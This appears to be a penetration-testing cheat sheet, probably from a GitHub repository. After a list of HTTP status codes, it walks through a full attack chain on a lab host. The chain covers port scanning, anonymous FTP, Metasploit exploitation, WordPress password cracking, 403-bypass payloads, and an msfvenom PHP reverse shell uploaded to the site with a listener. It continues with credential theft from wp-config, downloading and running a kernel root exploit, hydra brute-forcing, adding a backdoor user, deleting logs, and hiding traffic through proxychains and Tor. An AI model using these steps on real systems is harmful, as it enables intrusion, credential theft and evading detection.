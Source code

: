 # SYSTEM PENETRATION-TESTING

# HTTP status codes:
	HTTP status 200 – Successful
o	The HTTP 200 OK success status response code indicates that the request has succeeded. A 200 response is cacheable by default. 
o	The meaning of a success depends on the HTTP request method: GET : The resource has been fetched and is transmitted in the message body.
	HTTP status 301 – Moved Permanently
o	The HTTP 301 Moved Permanently redirect status response code indicates that the requested resource has been definitively moved to the URL given by the Location headers. A browser redirects to the new URL and search engines update their links to the resource.
	HTTP status 302 – Found
o	The HTTP 302 Found redirect status response code indicates that the resource requested has been temporarily moved to the URL given by the Location header. A browser redirects to this page but search engines don't update their links to the resource (in 'SEO-speak', it is said that the 'link-juice' is not sent to the new URL).
	HTTP status 303 - See Other
o	The HTTP 303 See Other redirect status response code indicates that the redirects don't link to the requested resource itself, but to another page (such as a confirmation page, a representation of a real-world object — see HTTP range-14 — or an upload-progress page). This response code is often sent back as a result of PUT or POST. The method used to display this redirected page is always GET.
	HTTP status 304 - Not Modified
o	The HTTP 304 Not Modified client redirection response code indicates that there is no need to retransmit the requested resources. It is an implicit redirection to a cached resource. This happens when the request method is a safe method, such as GET or HEAD, or when the request is conditional and uses an If-None-Match or an If-Modified-Since header.
	HTTP status 400 - Bad Request
o	The server can't process the request due to clientside errors.
	HTTP status 401 – Unauthorized
o	The 401-status code indicates that the HTTP request has not been applied because it lacks valid authentication credentials (usually username and password) for the target resource.
o	If the request included authentication credentials, the 401 response indicates that authorization has been refused for those credentials. Please check if your username and password are correct.
	HTTP status 403 – Forbidden
o	This is a permissions issue. You often encounter this error when no index file (.htm, .html or .php) is present and the directory listing is off for a folder in the Web space (Line "Options -Indexes" in a .htaccess file).
o	Sometimes user authentication was provided, but the authenticated user is not permitted to view the content of the folder or file. Other times the operation is forbidden to all users. Sometimes this error occurs if there are too many connections at the same time. The easyname support team can explain you this issue in depth.
	HTTP status 404 - Not Found
o	This error message is shown when a site or folder on a server are requested but cannot be found at the given URL. Please check your input.
o	Please note that this error can also appear if there is no start file (index.php or index.html).
	HTTP status 406 - Not Acceptable
o	This error often occurs with the application firewall (mod_security). To protect against attacks on web applications, incoming and outgoing data traffic is checked for rule violations. If an action violates one of these rules, the corresponding IP address is temporarily blocked, and the user receives the status message "406 - Not Acceptable".
o	The IP address is automatically unblocked after some time and access to the web application is then possible again. The time period depends on the severity of the violation.
o	Another possibility to make it accessible again is to deactivate the application firewall. It can be deactivated either for the entire web hosting or only for individual subdomains.
	HTTP Error 408 - Request Timeout
o	The server took longer than its allocated timeout window. In this case the server terminates the connection.
	HTTP status 429 - Too Many Requests
o	The HTTP 429 Too Many Requests response status code indicates the user has sent too many requests in a given amount of time.
o	A Retry-After header might be included to this response indicating how long to wait before making a new request.
	HTTP status 500 - Internal Server Error
o	This is a "catch all" status for unexpected errors. The server-side error message is commonly caused by eg. misconfigured .htaccess files or PHP errors, which you you can check in the file php_error.log on your Webhost.
o	You can find the php_error.log file in the /log/ directory - this directory can be found on the same level as your /html/ directory
	HTTP status 502 - Bad Gateway
o	This HTTP status code indicates that under the specified URL there's no content to be displayed.
	HTTP status 503 - Service unavailable
o	This means, that the server is currently unavailable, or the server is overallocated. You can check the file php_error.log as described for the status code 500.
	HTTP status 504 - Gateway timeout
o	This means, that the server has not responded within the specified time period.

•	Directory brute force is used to find hidden and often forgotten directories on a site to try to compromise. Some various automated tools and scripts retrieve the status of the directory which is brute forced from custom wordlists.
•	dirsearch - Web path discovery
o	python3 dirsearch.py -u <Target IP or URL>
•	ffuf - Fuzz Faster U Fool 
o	ffuf - Fast web fuzzer written in Go
o	ffuf -w lfi-payload.txt -u https://0a4c003c0455c109c0b78cec00a200ef.web-security-academy.net/image?filename=FUZZ -mc 200


•	Nmap ("Network Mapper") is used to discover hosts and services on a computer network by sending packets and analyzing the responses. Nmap provides a number of features for probing computer networks, including host discovery and service and operating system detection.
o	nmap -p <port or port range (1-100)> <target IP>, used to scan ports.
o	nmap -p- -A <target ip>, used to scan for all ports
o	Whenever you found open port that means you can get access through it.
o	If you see (ftp-anon: Anonymous FTP login allowed (FTP code 230)) go their ftp service and enter
	Username: anonymous
	Password: anonymous
o	ftp 192.168.1.36
Connected to 192.168.1.36
.
220-
220-|------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|------------------------------------------------------------|
220-
220 
Name (192.168.1.36:kali): anonymous
331 Please specify the password.
Password: anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
•	PORTS: You Can Hack
o	ftp
o	ssh
•	msfconsole is metasploit v6.2.15-dev
o	search samba
o	use 14 or exploit/linux/samba/is_known_pipename 
o	set RHOSTS 192.168.1.36
o	set RPORT 139
o	RHOSTS  Target’s IP
o	LHOSTS  Attacker’s IP(Our IP)
o	RPORT  139
o	LPORT  any available pors in ur OS (4444/1337)
o	mysql
•	wafw00f is used to detect web application firewall.
o	wafw00f <url>

•	nikto - Scan web server for known vulnerabilities
o	nikto -h
o	nikto -host <target ip>
o	nikto -host 192.168.1.36 -port 12380
•	wpscan - WordPress Security Scanner
o	wpscan --url https://192.168.1.36:12380/blogblog/ -e vp -e vt -e u
o	wpscan --url https://192.168.1.36:12380/blogblog/ -e vp -e vt -e u --disable-tls-checks 
o	wpscan --url https://192.168.1.36:12380/blogblog/ -U john -P /usr/share/wordlists/rockyou.txt --disable-tls-checks
o	after passwprd cracked go on the targeted website and loggin.

#How to Bypass 403 restrictions?
•	Adding in URL Paths: Adding this in paths of the URL and the file which is forbidden
o	/*		(EX: xyz.com/secret/*)
o	/%2f/	(EX: xyz.com/%2f/secret.txt/)
o	/./		(EX: xyz.com/secret/./)
o	//		(EX: xyz.com//secret)
o	/*/		(EX: xyz.com/secret/*/)
•	Adding Headers in request :By adding different headers in request with value 127.0.0.1 can also help in bypassing restrictions.
o	X-Custom-IP-Authorization
o	X-Forwarded-For
o	X-Forward-For
o	X-Remote-IP
o	X-Originating-IP
o	X-Remote-Addr
o	X-Client-IP
o	X-Real-IP
•	New 403 Bypass 
o	Download.php?file=../config.php ==> 403
o	Download.php?file=. /config.php⨀ ==> 200
o	Download.php?file=⊡ /config.php⨀  ==> 200
o	Download.php?file= .⊡ /config.php  ==> 200

•	msfvenom - a Metasploit standalone payload generator.
o	Also, a replacement for msfpayload and msfencode.
o	It is use for creating a payload.
o	Payload is a malware or a malicious code that the threat actor intends to deliver to the victim.
o	msfvenom -p php/mererpreter/reverse_tcp LHOST=192.168.1.2 LPORT=1337 -f raw
o	will get a raw payload code.
o	Remove /* from the beginning and create .php file.
o	And then upload these .php file in the target’s plugins.
o	Before executing this payload file. We need to create listener
o	Msfconsole
o	msf6 > use exploit/multi/handler
o	> set LHOST 192.168.1.2
o	> set LPORT 1337
o	> set payload php/meterpreter/reverse_tcp
o	> run
o	Now the Listner is started to u can execuite the .php file that u have uploaded in target server https://192.168.1.35:12380/blogblog/wp-content/uploads/
o	meterpreter > shell
o	python3 -c 'import pty;pty.spawn("/bin/bash")'
o	cd /home/www
o	cd
o	cd /var/www/https/blogblog
o	cat wp-config.php
o	here we got phpadmin user and passwd
o	/** MySQL database username & password */
o	define('DB_USER', 'root');
o	define('DB_PASSWORD', 'plbkac');
o	but we need to escalating privilege
o	cd /home/www
o	lsb_release -a
o	Description:    Ubuntu 16.04 LTS
o	Exploit-DB Mirror: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
o	If .zip use unzip to extract, if .gz use gunzip to extract
o	wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
o	unzip 39772.zip
o	cd 39772
o	to extract .tar extension tar -xvf <file.tar>
o	cd ebpf_mapfd_doubleput_exploit
o	$ ./compile.sh
o	$ ./doubleput
o	Now if you check whoami it will show ‘root’
•	Hydra is a tool to guess/crack valid login/password pairs.
	hydra -h
	hydra -l elly -e nsr
•	Ex. Username: elly
•	n = null  Password: ___
•	s = same  Password: elly
•	r = reverse  Password: ylle
o	FTP  21/tcp
	hydra -l elly -e nsr ftp://192.168.1.35 
[DATA] attacking ftp://192.168.1.35:21/
[21][ftp] host: 192.168.1.35   login: elly   password: ylle
1 of 1 target successfully completed, 1 valid password found
	now look for the sensitive files like, get dbconfig-common, shadow, passwd.
	In the passwd file we get more users list for sorting it we use
	cat passwd | grep /home  will shows only user’s details
	cat passwd | grep /home | cut -d ':' -f 1  only will show usernames
	cat passwd | grep /home | cut -d ':' -f 1| tee users.txt  to save it into users text file
	hydra -L users.txt -e nsr ftp://192.168.1.35
	here we get all cracked passwords for users who used nsr
o	SSH  22/tcp
	Here we can try hydra on ssh ports 
	hydra -L users.txt -e nsr ssh://192.168.1.35
	ssh SHayslett@192.168.1.35
•	passwd: SHayslett
o	GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems. -- gtfobins.github.io
	Ex. Search for sudo ftp permissions
•	sudo ftp
•	!/bin/sh
	Now again for escalating privilege repeat the steps
	Use exploit exploit-db.com/exploits/39772
	Dwnld > extract > and commands > XD root@red

o	Maintain Access in the target machine
	You can add user by creating
•	adduser bobby
•	pswd: hacked
o	Covering Tracks
	cd /var/log/apache2
	cat access.log | grep '192.168'
•	this are the logs you have to delete related to u rip
•	rm access.log
•	or you can just simply delete all the log files present and get out

•	MORE TIPS:
o	Crack Zip passwd
	fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt <zipfile.zip>
o	Crack PDF passwd
	pdfcrack -f <file.pdf> -w /usr/share/wordlists/rockyou.txt
•	Proxy chaining (Become Anonymous)
o	Proxychains in Linux is another tool for anonymity providing anonymity and safe browsing with proxychains is easy. The proxychains works on socks4, socks5, HTTP, and https protocols.
o	locate proxychains
	/etc/proxychains.conf
o	Disable strict_chain (Add # infront)
o	Enable dynamic_chain (Remove #)
o	Enable proxy_dns (default)
o	Disable socks4 127.0.0.1 9050 (default)
o	Add new proxy servers (https://spys.one/en/)
	P.TYPE=======P.IP=======PORT
	socks4	125.26.99.228		44052
	http	3.236.52.219		8888
o	Use: add proxychains before using any cmd
	proxychains nmap -sT -p- <IP>

o	Setup With TOR:
	service tor status
	sudo apt-get install tor
	mousepad /etc/proxychains.conf
•	Remove Dynamic chain from comment
•	comment Strict chain and Random chain
•	Remove proxy DNS from comment
•	write socks5 127.0.0.1 9050 in last line of proxy list 
	service tor restart
	proxychains firefox www.bing.com

